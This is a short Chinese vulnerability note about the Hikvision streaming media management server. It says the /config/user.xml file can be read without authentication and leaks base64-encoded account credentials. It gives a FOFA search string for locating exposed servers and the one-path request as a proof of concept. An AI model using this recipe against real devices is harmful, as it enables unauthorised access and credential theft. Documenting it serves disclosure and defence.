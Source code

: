 # HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

HIKVISION 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

<a-checkbox checked>HIKVISION 流媒体管理服务器</a-checkbox></br>

## FOFA

<a-checkbox checked>"杭州海康威视系统技术有限公司 版权所有"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628165281195-23ed2181-1200-4dad-bf4a-047e382c34f4.png)

验证POC

```plain
/config/user.xml
```

![img](../../../.vuepress/public/img/1628165582265-eddb47a5-1100-40bf-9d92-4d9e9aad3dc0.png)

图中账号密码为base64加密